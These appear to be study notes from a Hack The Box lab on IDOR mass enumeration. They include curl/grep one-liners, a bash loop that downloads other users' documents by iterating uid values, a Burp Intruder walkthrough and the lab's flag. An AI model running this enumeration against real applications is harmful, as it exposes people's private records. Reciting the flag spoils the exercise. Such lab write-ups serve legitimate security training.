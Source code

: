 # Mass IDOR Enumeration

### Insecure Parameters

web application that hosts employee records:

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_employee_manager.jpg" alt=""><figcaption><p>Employee Manager</p></figcaption></figure>

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_documents.jpg" alt=""><figcaption><p>http://SERVER_IP:PORT/documents.php?uid=1</p></figcaption></figure>

we are logged in as employee who as `uid=1`, In the web app we see the documents uploaded by our user. the links of the files are.

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

If we change the uid value to `uid=2`, we will see that the links of the documents changed to&#x20;

```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

This is a common mistake found in web applications suffering from IDOR vulnerabilities, as they place the parameter that controls which user documents to show under our control while having no access control system on the back-end.

### Mass Enumeration

Although we could enumerate manually and get the documents, it is not efficient. It's better to automate the task using Burp Intruder or ZAP Fuzzer to retrive the files.

To do so, we check the HTML source code of the files.

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

**pick any unique word to be able to `grep` the link of the file**. (we know each link starts with \
`<li class='pure-tree_link'>`

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"
```

**Using Regex pattern to grep**

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

> match strings between /documents and .pdf

simple bash script to get the documents with different uid

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

### Assessment

get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

<figure><img src="../../../.gitbook/assets/image (95).png" alt=""><figcaption><p>Send request to intruder</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption><p>payload 1-20</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption><p>request number 15 has very different size of response.</p></figcaption></figure>

We found the flag where `uid=15`

<figure><img src="../../../.gitbook/assets/image (97).png" alt=""><figcaption><p>HTB{4ll_f1l35_4r3_m1n3}</p></figcaption></figure>

